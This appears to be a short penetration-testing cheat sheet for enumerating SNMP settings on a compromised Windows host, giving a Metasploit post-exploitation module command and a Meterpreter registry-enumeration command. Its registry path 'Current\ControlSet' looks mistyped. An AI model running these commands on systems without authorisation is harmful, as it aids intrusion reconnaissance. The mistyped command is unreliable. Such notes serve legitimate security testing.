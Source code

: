 # Metasploit

## 01 - Post Module

```
meterpreter > run post/windows/gather/enum_snmp
```

## 02 - Meterpreter API commands

TODO: Look the post module source code to convert it to commands

```
meterpreter > reg enumkey [-r <target_IP>] -k HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP [-w <64>]
```
